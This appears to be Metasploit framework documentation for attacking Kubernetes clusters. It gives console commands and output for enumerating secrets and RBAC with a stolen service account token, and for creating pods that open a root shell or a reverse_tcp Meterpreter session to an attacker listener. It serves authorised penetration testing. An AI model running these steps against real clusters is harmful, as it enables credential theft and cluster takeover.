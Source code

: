 ## Kubernetes Workflows

Metasploit has modules for both exploitation and enumeration of a Kubernetes cluster. These modules can either run through
a compromised docker container, or external to the cluster if the required APIs are accessible:

- [modules/auxiliary/cloud/kubernetes/enum_kubernetes](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/cloud/kubernetes/enum_kubernetes.md)
- [modules/exploit/multi/kubernetes/exec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/kubernetes/exec.md)

In the future there may be more modules than listed here, for the full list of modules run the `search` command within msfconsole:

```msf
msf6 > search kubernetes
```

### Lab Environment

A tutorial for setting up a compromisable Kubernetes cluster can be found [here](https://github.com/rapid7/metasploit-framework/tree/master/test/kubernetes)

### Kubernetes Enumeration

Metasploit has support for enumerating the Kubernetes API to extract the following information:

- Version - Enumerate Kubernetes service version, git commit, build date, etc
- Auth - RBAC permission information, i.e. if the token can create pods, read secrets, etc
- Namespaces - Enumerate available namespaces
- Pods - Enumerate currently running pods
- Secrets - Enumerate secrets, including base64 decoding to highlight noteworthy credentials, and storing loot

The `auxiliary/cloud/kubernetes/enum_kubernetes` can be used to pivot through the compromised container to reach
an previously inaccessible Kubernetes API. In this scenario the container's Kubernetes service token will be read from the
file system, and used to authenticate with the Kubernetes API:

If you have a Meterpreter session on a compromised Kubernetes container, the module values of `NAMESPACE`, `TOKEN`, `RHOSTS` and `RPORT` module options
will be gathered from the session host automatically. The `TOKEN` will be read from the mounted `/run/secrets/kubernetes.io/serviceaccount/token` file if available:

```
use auxiliary/cloud/kubernetes/enum_kubernetes
run session=-1
```

If the Kubernetes API is publicly accessible and you have a JWT Token:

```msf
msf6 > use cloud/kubernetes/enum_kubernetes
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > set RHOST https://kubernetes.docker.internal:6443
RHOST => https://kubernetes.docker.internal:6443
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > set TOKEN eyJhbGciO...
TOKEN => eyJhbGciO...
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > run
[*] Running module against 127.0.0.1

[+] Kubernetes service version: {"major":"1","minor":"21","gitVersion":"v1.21.2","gitCommit":"092fbfbf53427de67cac1e9fa54aaa09a28371d7","gitTreeState":"clean","buildDate":"2021-06-16T12:53:14Z","goVersion":"go1.16.5","compiler":"gc","platform":"linux/amd64"}
[+] Enumerating namespaces
Namespaces
==========

  #  name
  -  ----
  0  default
  1  kube-node-lease
  2  kube-public
  3  kube-system
  4  kubernetes-dashboard

... etc ...
```

By default the `run` command will enumerate all resources available, but you can also specify which actions you would like to perform:

```msf
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > show actions

Auxiliary actions:

   Name        Description
   ----        -----------
   all         enumerate all resources
   auth        enumerate auth
   namespace   enumerate namespace
   namespaces  enumerate namespaces
   pod         enumerate pod
   pods        enumerate pods
   secret      enumerate secret
   secrets     enumerate secrets
   version     enumerate version
```

More usage examples:
```
# Configuration
use cloud/kubernetes/enum_kubernetes
set RHOST https://kubernetes.docker.internal:6443
set TOKEN eyJhbGciOiJSUz...

# Enumeration, filtering, and displaying information:
run
namespaces
namespaces name=kube-public
auth
auth output=json
secrets
pods
pod
pod namespace=default name=redis-7fd956df5-sbchb
pod namespace=default name=redis-7fd956df5-sbchb output=json
pod namespace=default name=redis-7fd956df5-sbchb output=table
version
```

### Kubernetes Execution

The `exploit/multi/kubernetes/exec` module will attempt to create a new pod in the specified namespace, as well as mounting the host's filesystem at `/host_mnt` if the required permissions are available. This module can either use websockets for communication, similar to the `kubectl exec --stdin --tty` command, or upload a full Meterpreter payload.

If you have a Meterpreter session on a compromised Kubernetes container with the available permissions, the module values of `NAMESPACE`, `TOKEN`, `RHOSTS` and `RPORT` module options
will be gathered from the session host automatically. The `TOKEN` will be read from the mounted `/run/secrets/kubernetes.io/serviceaccount/token` file if available:

```msf
msf6 exploit(multi/kubernetes/exec) > set TARGET Interactive\ WebSocket
TARGET => Interactive WebSocket
msf6 exploit(multi/kubernetes/exec) > run RHOST="" RPORT="" POD="" SESSION=-1

[*] Routing traffic through session: 1
[+] Kubernetes service host: 10.96.0.1:443
[*] Using image: busybox
[+] Pod created: burhgvzc
[*] Waiting for the pod to be ready...
[+] Successfully established the WebSocket
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.31:59437 -> 10.96.0.1:443) at 2021-10-01 10:05:57 -0400

id
uid=0(root) gid=0(root) groups=10(wheel)
pwd
/
```

If the Kubernetes API is available remotely, the RHOST values and token can be set manually. In this scenario a token is manually specified, to execute a Python Meterpreter payload within the `thinkphp-67f7c88cc9-tgpfh` pod:

```msf
msf6 > use exploit/multi/kubernetes/exec
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > set TOKEN eyJhbGciOiJSUzI1...
TOKEN => eyJhbGciOiJSUzI1...
msf6 exploit(multi/kubernetes/exec) > set POD thinkphp-67f7c88cc9-tgpfh
POD => thinkphp-67f7c88cc9-tgpfh
msf6 exploit(multi/kubernetes/exec) > set RHOSTS 192.168.159.31
RHOSTS => 192.168.159.31
msf6 exploit(multi/kubernetes/exec) > set TARGET Python
TARGET => Python
msf6 exploit(multi/kubernetes/exec) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > run

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Sending stage (39736 bytes) to 192.168.159.31
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.31:59234) at 2021-10-01 09:55:00 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : thinkphp-67f7c88cc9-tgpfh
OS           : Linux 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021
Architecture : x64
Meterpreter  : python/linux
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/kubernetes/exec) >
```
